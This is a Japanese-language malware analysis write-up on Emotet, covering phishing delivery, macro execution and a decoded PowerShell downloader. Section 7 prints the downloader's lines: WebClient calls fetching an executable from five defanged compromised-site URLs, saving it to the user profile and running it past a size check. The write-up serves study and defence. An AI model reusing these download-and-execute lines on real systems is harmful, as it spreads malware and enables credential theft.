 ```yaml
---
date: 2022-10-13T04:00:00
description: 
featured_image: 
tags: ["Emotet", "トロイの木馬", "PowerShell", "マルウェア", "サイバーセキュリティ"]
title: "Emotet マルウェアの分析"
---
```


![01](https://github.com/user-attachments/assets/e2c1e64f-1c3b-4fa0-abc7-6e06c9cb5ada)

## Emotetとは？

- 主にメールを通じて拡散されるトロイの木馬
- 正規のメールのように偽装し、ユーザーに悪意のあるファイルをクリックさせる手法
- トロイの木馬を更新し、システムにアクセスを確立した後、運営者が追加ペイロードをダウンロードできるようにする「ローダー」型のマルウェア
- 感染したホストから銀行の資格情報を盗む、被害者から金銭を搾取することを目的に動作

<br>

## Emotet 実行/分析

### 1. ソーシャルエンジニアリング手法を用いて攻撃対象にメールを送信
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 攻撃対象が疑わず添付ファイルをダウンロード
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. ファイルを開き、マクロを実行するため「コンテンツの有効化」をクリック
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64でエンコードされたコードがPowerShellプロセスで実行される
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShellコマンドによってconhostが実行
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShellスクリプトコードの実行
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShellスクリプトコードの分析
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 以下のURLからファイルをダウンロード
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 以下のパスにファイルを保存
$env:userprofile\284.exe

3) 23931バイト以上の場合実行
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. ユーザーフォルダーにファイル生成
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

## [参考]
- https://en.wikipedia.org/wiki/Emotet<br>
- https://www.malwarebytes.com/emotet
